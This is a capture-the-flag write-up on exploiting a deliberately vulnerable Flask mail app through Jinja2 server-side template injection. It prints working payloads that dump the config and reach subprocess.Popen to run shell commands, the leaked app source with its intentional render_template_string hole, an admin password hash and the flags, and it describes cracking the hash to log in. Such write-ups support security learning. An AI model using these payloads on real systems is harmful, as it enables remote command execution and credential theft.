

# Outline - Task 1 & 2

> dOh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 1: Retrieve the flag from its configs
>
> `nc c2.lagncrash.com 8002`

.png>)

.png>)

We noticed that our input is being shown directly above. This might mean a possibility of SSTI as there may be a template engine rendering the template and placing our user input into the page.

.png>)

.png>)

From the above output, we can see that `{{7*7}}` results in 49 and `{{7*'7'}}` results in 7777777. This means the template engine running is Jinja2, where the challenge has informed us the server is running Flask.



.png>)

`{{ config.items() }}` shows us the configuration of the web server which shows us the hidden flag in 'SECRET KEY'.&#x20;

## Task 2`(36 solves)`

> Oh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 2: /flag seems to have an error... Try accessing as one of the other users!
>
> `nc c2.lagncrash.com 8002`

.png>)

.png>)

After dumping the subclasses, I found the class `subprocess.Popen` being available to us to launch a process for arbitrary command execution.

.png>)

We copied the output and get the index of the class `subprocess.Popen` which is 215.

`{{''.__class__.mro()[1].__subclasses__()[`215`]('ls',shell=True,stdout=-1).communicate()[0].split()}}`

.png>)

`{{''.__class__.mro()[1].__subclasses__()[`215`]('cat app.py',shell=True,stdout=-1).communicate()[0].splitlines()}}`

.png>)

```python
[b'from flask import Flask, Response, render_template, request, redirect, url_for, session, send_from_directory, render_template_string', b'import shelve', b'import hashlib', b'from User import User', b'from Mail import Mail', b'', b"app = Flask(__name__, static_url_path='',static_folder='static')", b'app.secret_key = "LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b'', b"@app.route('/', methods=['GET'])", b'def home():', b' return render_template("home.html")', b'', b'', b"@app.route('/register', methods=['GET','POST'])", b'def register():', b" if request.method == 'GET':", b' return render_template("register.html")', b" elif request.method == 'POST':", b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'w')", b" users = db['users']", b' user = User(username, password)', b' users[username] = user.asdict()', b" db['users'] = users", b' return redirect(url_for("home"))', b'', b'', b"@app.route('/login', methods=['POST'])", b'def login():', b' loggedin = False', b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' try:', b' user = users[username]', b" print(user['password'], password)", b" if user['password'] == password:", b' loggedin = True', b" print('2')", b' else:', b" print('3')", b' pass', b' except:', b" print('4')", b' pass', b'', b' if loggedin == True:', b' session["username"] = user[\'username\']', b' session["login"] = user[\'id\']', b" return redirect(url_for('mail'))", b' else:', b' response = Response(400)', b' response.data = "Authentication failed"', b' return response', b'', b"@app.route('/mail', methods=['GET', 'POST'])", b'def mail():', b" if request.method == 'GET':", b' return render_template("mail.html")', b" elif request.method == 'POST':", b" sender = request.form['sender']", b" receiver = request.form['receiver']", b" subject = request.form['subject']", b" body = request.form['body']", b' mail = Mail(sender,receiver,subject,body)', b' id = mail.get_id()', b" db = shelve.open('storage.db', 'w')", b" mail_dict = db['mail']", b' mail_dict[id] = mail', b" db['mail'] = mail_dict", b' return render_template("sent.html", id=id)', b'', b"@app.route('/emails/<mailid>', methods=['GET'])", b'def emails(mailid):', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b" mail_dict = db['mail']", b' mail = mail_dict[mailid]', b' db.close()', b" html = f'From: {mail.get_sender()} \\", b' To: {mail.get_receiver()} \\', b' Subject: {mail.get_subject()} \\', b" {mail.get_body()}'", b' return render_template_string(html,users=users)', b'', b'', b"@app.route('/flag', methods=['GET'])", b'def flag():', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' if session["username"] == "bigboiadmin" and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', b' response = Response(200)', b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b' else:', b' response = Response(400)', b' response.data = "You are not allowed to view this page"', b' return response', b'', b'', b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature', b'', b'', b'if __name__ == "__main__":', b" db = shelve.open('storage.db', 'c')", b' db[\'users\'] = {"bigboiadmin":{\'id\':\'4SAW8NH0I37CIE13MVC1Q1CL42N6PTFGECIQKS3Y0U8N8CEP\', \'username\': \'bigboiadmin\', \'password\': \'2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350\'}}', b" db['mail'] = {}", b' db.close()', b' app.run()']
```

From the above output in app.py, we can find the flag in the application logic, where we are supposed to login as bigboiadmin to obtain the flag.

```
if session["username"] == "bigboiadmin" 
and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', 
b' response = Response(200)', 
b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"',
 b' else:', b' response = Response(400)', 
 b' response.data = "You are not allowed to view this page"', 
 b' return response'
```

.png>)

```
b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature'
```

We found a SHA256 hash function in the code which implies the password is hashed with SHA256.

.png>)

I first cracked the SHA256 password hash before using the credentials to login and obtained the flag.

.png>)

